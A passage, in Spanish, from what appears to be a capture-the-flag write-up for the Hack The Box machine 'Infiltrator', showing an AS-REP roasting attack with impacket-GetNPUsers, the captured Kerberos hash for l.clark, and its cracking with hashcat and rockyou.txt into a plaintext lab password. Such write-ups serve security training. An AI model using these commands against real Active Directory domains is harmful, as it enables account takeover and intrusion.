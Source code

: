 ## AS-REP Roast Attack (GetNPUsers)

Dado que disponemos de un listado potencial de usuarios, realizaremos el ataque de _**AS-REP Roast Attack**_. Al realizar el ataque revisará si alguno de los usuarios que disponemos dispone de la flag (_DONT\_REQ\_PREAUTH_) de Kerberos, para así obtener un hash TGT (Ticket Granting Ticket) que posteriormente podremos intentar crackear.

En este caso, verificamos que hemos logrado obtener el hash TGT del usuario `l.clark@infiltrator.htb`, este hash lo almacenaremos en un archivo.

```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt infiltrator.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User d.anderson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User o.martinez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User k.turner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.walker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User e.rodriguez doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$l.clark@INFILTRATOR.HTB:76890a639a822a2a5f2aca12844f246d$0bf760af3d8cfce1b276ff32c9da558ca0073da317e52f22b343d7284af86d21abc939d1332f83eb6bd8c327e5bdf96c737468840ab0cfc87bf95201887f8d8c6c1bce285a08bd060ed9fc4d16192970262eb3216ada25bfc293f599e8af46d2ddc83774da32f0487b45e09648de0c23b7dd8643568245b6fbbc72686d036e432571e7862b934b74a7acb895572dc539401235856869f8fdd87066be370d5ef2184cf2f4c85b9783853445778fdce0d07d938c86e0d633516a394eba4858afda625102b5c35134904ac34ab978bfed656ba6a15830a011d4e151b2d32b1d215b0d94beb2180a8cc237581de7967a423fef8e
```

Intentaremos crackear el hash obtenido a través de la herramienta `hashcat`, en este caso, logramos obtener la contraseña en texto plano del usuario `l.clark@infiltrator.htb`.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

...[snip]...

$krb5asrep$23$l.clark@INFILTRATOR.HTB:76890a639a822a2a5f2aca12844f246d$0bf760af3d8cfce1b276ff32c9da558ca0073da317e52f22b343d7284af86d21abc939d1332f83eb6bd8c327e5bdf96c737468840ab0cfc87bf95201887f8d8c6c1bce285a08bd060ed9fc4d16192970262eb3216ada25bfc293f599e8af46d2ddc83774da32f0487b45e09648de0c23b7dd8643568245b6fbbc72686d036e432571e7862b934b74a7acb895572dc539401235856869f8fdd87066be370d5ef2184cf2f4c85b9783853445778fdce0d07d938c86e0d633516a394eba4858afda625102b5c35134904ac34ab978bfed656ba6a15830a011d4e151b2d32b1d215b0d94beb2180a8cc237581de7967a423fef8e:WAT?watismypass!
```
